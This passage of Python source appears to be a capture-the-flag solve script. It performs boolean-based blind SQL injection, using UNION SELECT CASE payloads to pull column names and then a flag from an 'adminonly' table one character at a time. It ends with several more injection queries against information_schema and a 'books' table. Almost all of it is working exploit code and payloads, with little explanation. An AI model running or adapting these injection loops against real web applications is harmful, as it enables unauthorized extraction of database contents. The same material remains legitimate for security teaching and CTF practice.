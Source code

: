 ```python
    payload = f'''123' union select case when (substring(STRING_AGG(column_name, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from information_schema.columns where table_name = 'adminonly'-- '''
    res = get(url=url+payload)
    count += 1
    #print(f'..ing..{count}')
    if res.text.find('1111111111111') != -1:
      count = 0
      #print(j)
      column += j
      print(column)
      break
    elif j == ' ':
      check_false = 1
      break

count = 0    
flag = ''
check_false = 0

# Get flag
# start flag index is 11 -> Guess next query
'''
123' union select case when (substring(STRING_AGG(value, ','),{i},1)='S') then 1111111111111 else 2222222222222 end from adminonly--
''' 
for i in range(11, 100):
  if check_false:
    print()
    print('[-] finish')
    break 
  for j in list(combined_string):
    payload = f'''123' union select case when (substring(STRING_AGG(value, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from adminonly-- '''
    res = get(url=url+payload)
    count += 1
    #print(f'..ing..{count}')
    if res.text.find('1111111111111') != -1:
      count = 0
      #print(j)
      flag += j
      print(flag)
      break
    elif j == ' ':
      check_false = 1
      break

'''
# another test query

123' union select case when (char_length(title)>0) then 1111111111111 else 2222222222222 end from books where idx=364-- 

123' union select case when (char_length(STRING_AGG(column_name, ', '))>0) then 1111111111111 else 2222222222222 end from information_schema.columns where table_name = 'books'-- 

123' union select case when (position('SCTF' IN STRING_AGG(table_name, ',')) > 0) then 1111111111111 else 2222222222222 end from information_schema.tables-- 

123' union select case when (substring(STRING_AGG(table_name, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from information_schema.tables where current_database() = 'books'-- 

```